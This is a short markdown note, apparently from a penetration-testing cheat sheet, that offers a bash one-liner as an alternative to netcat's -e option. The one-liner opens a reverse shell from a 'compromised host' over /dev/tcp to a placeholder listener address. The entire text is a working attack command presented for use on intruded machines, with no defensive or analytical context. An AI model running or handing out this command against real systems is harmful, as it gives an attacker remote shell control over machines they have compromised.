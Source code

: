 

# Alternative to `-e`
If the version of netcat on your compromised host does not have the `-e` option enabled/installed, you can use the following to open a reverse shell:

```bash
bash -c '0<&55-;exec 55<>/dev/tcp/LISTEN_HOST_IP/LISTEN_HOST_PORT;sh <&55 >&55 2>&55'
```
